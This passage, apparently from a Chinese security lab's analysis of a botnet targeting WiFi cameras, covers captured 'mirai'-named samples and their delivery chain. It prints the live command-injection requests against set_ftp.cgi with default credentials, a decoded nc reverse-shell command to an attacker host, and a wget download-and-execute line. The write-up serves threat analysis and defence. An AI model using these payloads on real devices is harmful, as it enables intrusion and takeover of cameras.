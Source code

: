 [![](./img/85953/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0140c645b256d8d54c.png)

图2 detailed volume compare<br>

**从扫描到样本**

**载荷**

注意到该扫描以后，我们就开始了对该威胁的追溯和分析工作。通过我们的蜜罐系统，我们捕获了下面这组样本。需要预先说明的是，虽然这组样本的命名中包含 mirai 字样，但是这一组样本的工作方式不同于mirai，并不能视为mirai的变种，而应该作为一个新的威胁来对待。

```
cd20dcacf52cfe2b5c2a8950daf9220d wificam.sh 428111c22627e1d4ee87705251704422 mirai.arm 9584b6aec418a2af4efac24867a8c7ec mirai.arm5n 5ebeff1f005804bb8afef91095aac1d9 mirai.arm7 b2b129d84723d0ba2f803a546c8b19ae mirai.mips 2f6e964b3f63b13831314c28185bb51a mirai.mpsl
```

这组样本的文件信息如下：

```
mirai.arm: ELF 32-bit LSB executable, ARM, version 1, statically linked, stripped
mirai.arm5n: ELF 32-bit LSB executable, ARM, version 1, statically linked, stripped
mirai.arm7: ELF 32-bit LSB executable, ARM, EABI4 version 1 (SYSV), statically linked, stripped
mirai.mips: ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, stripped
mirai.mpsl: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, stripped
wificam.sh: ASCII text
```

**载荷的投递方式**

在攻击者完成嗅探81端口确认存活以后，通过以下方式投递有效载荷：

1、攻击者在上文PoC基础上，注入命令迫使受害者设备发起nc连接到 load.gtpnet.ir:1234

2、攻击者控制load.gtpnet.ir:1234 对每个受害则发起的连接，投递了 hxxp://ntp.gtpnet.ir/wificam.sh 作为后续下载的中转，并通过该脚本进一步从 hxxp://ntp.gtpnet.ir/ 服务器下载命名为 mirai.arm/mirai.arm5n/mirai.arm7/mirai.mips/mirai.mpsl 的样本

3、这些样本会进一步与控制服务器建立连接，到此，受害者设备完全被攻击者控制，感染阶段结束，准备发起攻击。

上述三段攻击方式对应的代码如下：

1、命令注入阶段，迫使受害者建立nc连接到 load.gtpnet.ir:1234

```
GET login.cgi HTTP/1.1
GET /set_ftp.cgi?loginuse=admin&amp;loginpas=admin&amp;next_url=ftp.htm&amp;port=21&amp;user=ftp&amp;pwd=ftp&amp;dir=/&amp;mode=PORT&amp;upload_interval=0&amp;svr=%24%28nc+load.gtpnet.ir+1234+-e+%2Fbin%2Fsh%29 HTTP/1.1
GET /ftptest.cgi?loginuse=admin&amp;loginpas=admin HTTP/1.1
```

这个部分的有效载荷包含在 sef_ftp.cgi 的URI 中，转码后为

nc load.gtpnet.ir 1234 -e bin/sh

受害者因此被胁迫向攻击者的服务器发起nc连接

1、攻击者通过上述nc连接，向受害者设备投递了下载脚本 wificam.sh



```
$ nc load.gtpnet.ir 1234`
busybox nohup sh -c "wget http://ntp.gtpnet.ir/wificam.sh -O /tmp/a.sh ;chmod +x /tmp/a.sh ;/tmp/a.sh" &gt; /dev/null 2&gt;&amp;1 &amp;`
```
